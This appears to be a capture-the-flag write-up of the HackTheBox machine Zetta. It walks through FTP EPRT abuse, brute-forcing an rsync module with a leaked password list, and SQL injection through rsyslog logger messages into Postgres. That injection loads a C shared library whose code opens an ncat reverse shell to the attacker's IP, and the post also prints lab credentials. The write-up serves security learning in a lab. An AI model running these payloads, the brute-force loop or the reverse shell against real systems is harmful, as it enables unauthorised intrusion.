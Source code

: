 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/KLCaInLCLuQ/0.jpg
layout: post
media_subpath: /assets/posts/2020-02-22-zetta-hackthebox
tags:
- ftp
- hackthebox
- ipv6
- linux
- rsync
- rsyslogd
- sql injection
title: Zetta @ HackTheBox
---
```


Zetta is 40-point machine on hackthebox. We will get the ipv6 address of the box via ftp, use rsync to get access to ssh and finally abuse a sql injection in rsyslogd to get root.

{% youtube KLCaInLCLuQ %}

## User Flag

Open ports:

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

On the website on port 80 we see a long string being shown as a potential ftp password, which is generated as follows:

```
var rString = randomString(32, '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
```

We can use any 32 char string to connect to ftp, using it as username and password. The website also mentions RFC2428 which describes 2 commands EPRT and EPSV.

By using `EPRT<space><d><net-prt><d><net-addr><d><tcp-port><d>` we can get the ftp server to connect to us using his ipv6 address:

```
nc zetta.htb 21
USER a9407e837fb779abc934d6db89ed4c43
PASS a9407e837fb779abc934d6db89ed4c43
EPRT |2|dead:beef:2::1003|4444|
LIST
```

Using wireshark we can read its ipv6 address and use it for another port scan (for ease of use I added it to /etc/hosts). This time another port shows up: "8730", which runs rsyncd. We connect and see the following message:

```
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******
rsync rsync://zetta6:8730
...
bin                Backup access to /bin
boot               Backup access to /boot
lib                Backup access to /lib
lib64              Backup access to /lib64
opt                Backup access to /opt
sbin               Backup access to /sbin
srv                Backup access to /srv
usr                Backup access to /usr
var                Backup access to /var
```

By trial and error we find that the only folder we can download with rsync is "/etc/", which is not listed here. We find the following interesting config file:

```
cat rsyncd.conf
...
# Syncable home directory for .dot file sync for me.
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
    path = /home/roy
    read only = no
    # Authenticate user for security reasons.
    uid = roy
    gid = roy
    auth users = roy
    secrets file = /etc/rsyncd.secrets
    # Hide home module so that no one tries to access it.
    list = false
```

We can not read the secrets file, but bruteforcing the password gives the correct result in just a few minutes:

```
for word in $(cat ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-10.txt ); do sshpass -p $word rsync -6 -r rsync://roy@zetta6:8730/home_roy/ .; done
```

We can now read user.txt as it was synced to our folder. The correct password was "computer". We add our ssh public key to ".ssh/authorized\_keys" and upload it, resulting in a ssh access as roy:

```
rsync -vvaP -6 .ssh "rsync://roy@zetta6:8730/home_roy/"
```

## Root Flag

In roys home folder we see a file ".tudu.xml" with several hints. It suggests to look at logging related things and postgres. We confirm that posgres is running on 5432 by using `ss -ntp`. The assumption that we have to deal with something logging related is also reinforced by the groups we have (includes adm):

```
uid=1000(roy) gid=1000(roy) groups=1000(roy),4(adm),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

We have some logfiles in /var/log/postgresql, for example "postgresql-11-main.log", which is however empty. We open a terminal and run `tail -f` on the file to monitor it at all times. When trying to log into postgres with a wrong user (`psql -U xct`) we generate some error messages, that we can see in the log.

Looking back at the hints xml file we see that git files are mentioned. By searching for ".git" on the box we get 3 folders:

```
/etc/pure-ftpd/.git
/etc/nginx/.git
/etc/rsyslog.d/.git
```

I copied those folders to my local box and looked at the history with `git reflog | awk '{ print $1 }' | xargs gitk`. There is an interesting line in a commit for rsyslog:

```
local7.info action(type="ompgsql" server="localhost" user="postgres" pass="test1234" db="syslog" template="sql-syslog")
```

While the password does not work, this tells us that the "local7.info" log facility is used. By sending messages to the facility we are able to trigger an error message:

```
logger -p local7.info "'"
...
2019-09-01 05:44:33.721 EDT [22460] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \'','2019-09-01 09:44:33')
```

It seems like we can progress by injecting values into log messages, because these are used in a query. We have to deal with escaping single quotes here, because they get changed to `\'`. A way to accomplish this in postgres is to use `$$` to replace all single quotes. We have to be a bit careful though because `$$` is also a bash thing so we have to escape that too. We try some things and get a valid query that does not error out, despite the injection:

```
logger -p local7.info "xct',\$\$2019-09-01 07:55:02\$\$) --"
```

Postgres supports loading shared libraries via queries so we create one:

```
# get version with `find / -wholename '*/bin/postgres' 2>&- | xargs -i xargs -t '{}' -V`
sudo apt-get install postgresql-server-dev-11
```

```
#include "postgres.h"
#include "fmgr.h"
#include <stdlib.h>

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif


Datum exec(PG_FUNCTION_ARGS){
    system("/dev/shm/ncat 10.10.14.5 8000 -e /bin/sh");

};
PG_FUNCTION_INFO_V1(exec);
```

```
gcc xct.c -I`pg_config --includedir-server` -fPIC -shared -o xct.so
```

We upload a static ncat binary and the shared object to "/dev/shm/". Now we can create the queries that load the shared objects and give us a shell:

```
logger -p local7.info "xct',\$\$2019-09-01 07:55:02\$\$); CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  \$\$/dev/shm/xct.so\$\$, \$\$exec\$\$ LANGUAGE C STRICT; -- "

logger -p local7.info "xct',\$\$2019-09-01 07:55:02\$\$); SELECT exec(); -- "
```

The shell will die after about 20-30 seconds so we have to be quick. In "/var/lib/postgresql/.ssh/id\_rsa" we find a ssh private key for postgres which we can use to connect.

The final step is to look at .psql\_history and see the password the user has: "sup3rs3cur3p4ass@postgres". Remembering the hints file we infer the root password "sup3rs3cur3p4ass@root" and can su to root.

Thanks to [jkr](https://twitter.com/ATeamJKR) for making the box!